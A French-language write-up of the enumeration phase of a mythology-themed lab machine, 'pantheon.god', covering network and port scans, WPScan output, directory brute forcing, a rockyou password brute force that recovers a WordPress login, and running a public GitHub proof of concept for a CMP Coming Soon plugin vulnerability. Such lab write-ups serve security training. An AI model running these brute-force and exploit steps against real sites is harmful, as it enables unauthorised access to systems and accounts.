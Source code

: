 # Énumération

## 🔍 Phase 1 : Reconnaissance Initiale

### Énumération Réseau

Commençons par découvrir les machines présentes sur le réseau cible.

```bash
# Scan de découverte du réseau
nmap -sn 192.168.56.1/24

# Résultat
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-06 23:27 CEST
Nmap scan report for 192.168.56.10
Host is up (0.00014s latency).
MAC Address: 08:00:27:58:FA:50 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.11
Host is up (0.00011s latency).
MAC Address: 08:00:27:BE:5F:A9 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.12
Host is up (0.00018s latency).
MAC Address: 08:00:27:95:2A:F9 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.100
Host is up (0.000040s latency).
MAC Address: 08:00:27:30:D7:D4 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.1
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 12.95 seconds
```

!!! success "Découverte"
    Trois machines sont visibles sur le réseau :  
    - **192.168.56.10**  
    - **192.168.56.11**
    - **192.168.56.12**

### Scan Complet de la Machine en .10

```bash
# Scan complet avec détection de services
nmap -sC -sV -p- 192.168.56.10

# Résultat
Nmap scan report for pantheon.god (192.168.56.10)
Host is up (0.0011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 6.8.1
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Pantheon
```

!!! info "Services Découverts"
    - **Port 22** : SSH (OpenSSH 7.6p1)
    - **Port 80** : HTTP (Apache 2.4.29 + WordPress 6.8.1)

## 🌐 Énumération Web

### Accès au Site Web

En accédant au port 80, nous sommes redirigés vers `pantheon.god`. Le site utilise WordPress 6.8.1.

### Énumération WordPress avec WPScan

```bash
# Scan agressif des plugins
wpscan --url "http://192.168.56.10/" --plugins-detection aggressive
```
<details>
<summary><strong>📋 Voir le scan WPScan complet</strong></summary>

```bash
wpscan --url "http://pantheon.god/" --plugins-detection aggressive
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://pantheon.god/ [192.168.56.10]
[+] Started: Tue May 27 02:01:37 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://pantheon.god/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://pantheon.god/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://pantheon.god/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://pantheon.god/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://pantheon.god/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.8.1 identified (Latest, released on 2025-04-30).
 | Found By: Rss Generator (Passive Detection)
 |  - http://pantheon.god/feed/, <generator>https://wordpress.org/?v=6.8.1</generator>
 |  - http://pantheon.god/comments/feed/, <generator>https://wordpress.org/?v=6.8.1</generator>

[+] WordPress theme in use: twentytwentyfive
 | Location: http://pantheon.god/wp-content/themes/twentytwentyfive/
 | Latest Version: 1.2 (up to date)
 | Last Updated: 2025-04-15T00:00:00.000Z
 | Readme: http://pantheon.god/wp-content/themes/twentytwentyfive/readme.txt
 | [!] Directory listing is enabled
 | Style URL: http://pantheon.god/wp-content/themes/twentytwentyfive/style.css?ver=1.2
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://pantheon.god/wp-content/themes/twentytwentyfive/style.css?ver=1.2, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:04:30 <=======================================
 Checking Known Locations - Time: 00:22:44 <========================> (110793 / 110793) 100.00% Time: 00:22:44
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://pantheon.god/wp-content/plugins/akismet/
 | Latest Version: 5.4
 | Last Updated: 2025-05-07T16:30:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pantheon.god/wp-content/plugins/akismet/, status: 403
 |
 | The version could not be determined.

[+] cmp-coming-soon-maintenance
 | Location: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/
 | Last Updated: 2025-04-30T08:07:00.000Z
 | Readme: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt
 | [!] The version is out of date, the latest version is 4.1.15
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/, status: 200
 |
 | Version: 4.1.13 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt

[+] feed
 | Location: http://pantheon.god/wp-content/plugins/feed/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pantheon.god/wp-content/plugins/feed/, status: 200
 |
 | The version could not be determined.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <===============================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue May 27 02:24:34 2025
[+] Requests Done: 110950
[+] Cached Requests: 44
[+] Data Sent: 29.306 MB
[+] Data Received: 33.036 MB
[+] Memory used: 594.039 MB
[+] Elapsed time: 00:22:56
```

</details>

#### Résultats Importants

!!! warning "Vulnérabilités Découvertes"
    - **Plugin CMP Coming Soon** : Version 4.1.13 (obsolète, dernière version 4.1.15)
    - **Directory listing** activé sur `/wp-content/uploads/`
    - **XML-RPC** activé
    - **WP-Cron** activé

#### Détails du Plugin Vulnérable

```bash
[+] cmp-coming-soon-maintenance
 | Location: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/
 | Last Updated: 2025-04-30T08:07:00.000Z
 | Readme: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt
 | [!] The version is out of date, the latest version is 4.1.15
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 | - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/, status: 200
 |
 | Version: 4.1.13 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 | - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt
```

### Énumération de Répertoires

```bash
# Énumération des répertoires avec gobuster
gobuster dir -w /opt/lists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -u http://olympe.god/wp-content \
  -x txt,html,php
```

#### Découverte Critique

!!! success "Fichier Important Trouvé"
    ```
    /notes.txt            (Status: 200) [Size: 391]
    ```

### Analyse du Fichier Notes.txt

```bash
# Contenu du fichier notes.txt
curl http://olympe.god/wp-content/notes.txt
```

!!! tip "Indice Important"
    Le fichier contient une note indiquant que tous les dieux devaient changer leurs mots de passe et mettre un `y`, mais seul Hermès ne l'a pas fait.

## 🔐 Recherche de Credentials

### Brute Force sur WordPress

Basé sur l'indice trouvé, nous tentons un brute force sur l'utilisateur `hermes` :

```bash
# Brute force avec rockyou.txt
wpscan --url http://192.168.56.10 \
  --usernames hermes \
  --passwords /usr/share/wordlists/rockyou.txt
```

!!! success "Credentials Trouvés"
    - **Utilisateur** : hermes
    - **Mot de passe** : ilovegod

## 🎯 Analyse de la Vulnérabilité CMP Coming Soon

### Recherche de POC

La version 4.1.13 du plugin CMP Coming Soon est vulnérable. Nous trouvons un POC sur GitHub :

```bash
# Téléchargement du POC
git clone https://github.com/Nxploited/CVE-2025-32118
cd CVE-2025-32118
```

### Vérification de la Vulnérabilité

```bash
# Test du POC
python3 CVE-2025-32118.py -u http://olympe.god/wordpress -un hermes -p ilovegod
```

!!! warning "Vulnérabilité Confirmée"
    Le plugin permet un bypass d'authentification et l'upload de fichiers malveillants.

## 📊 Résumé de l'Énumération

### Points d'Entrée Identifiés

| Service | Vulnérabilité | Vecteur d'Attaque |
|---------|---------------|-------------------|
| **WordPress** | Plugin CMP Coming Soon 4.1.13 | Authentification bypass |
| **SSH** | Credentials faibles | Brute force possible |
| **Apache** | Directory listing | Information disclosure |

### Credentials Découverts

| Utilisateur | Mot de Passe | Source |
|-------------|--------------|--------|
| **hermes** | ilovegod | Brute force WordPress |

### Fichiers Sensibles

- `/wp-content/notes.txt` : Indices sur les credentials
- `/wp-content/uploads/` : Directory listing activé
- `/wp-content/plugins/cmp-coming-soon-maintenance/` : Plugin vulnérable

## 🎭 Contexte Mythologique

### Hermès - Le Messager Vulnérable

Dans la mythologie grecque, Hermès est le messager des dieux, rapide et rusé. Dans notre lab :

- **Vulnérabilité** : Credentials faibles (hermes:y → hermes:ilovegod)
- **Rôle** : Point d'entrée vers l'Olympe numérique
- **Scénario** : Intercepter les messages divins pour accéder au royaume

### Indices Thématiques

Le fichier `notes.txt` fait référence à un décret de Zeus demandant aux dieux de changer leurs mots de passe, créant un contexte narratif cohérent avec la thématique mythologique.

## 🚀 Prochaines Étapes

Avec ces informations, nous pouvons maintenant :

1. **Exploiter la vulnérabilité CMP Coming Soon**
2. **Obtenir un shell sur la machine**
3. **Élever nos privilèges vers l'utilisateur hermes**
4. **Explorer l'environnement pour d'autres vecteurs**

---

*L'énumération révèle les premières failles dans la défense de l'Olympe. Hermès, le messager divin, a laissé ses secrets exposés...* ⚡ 
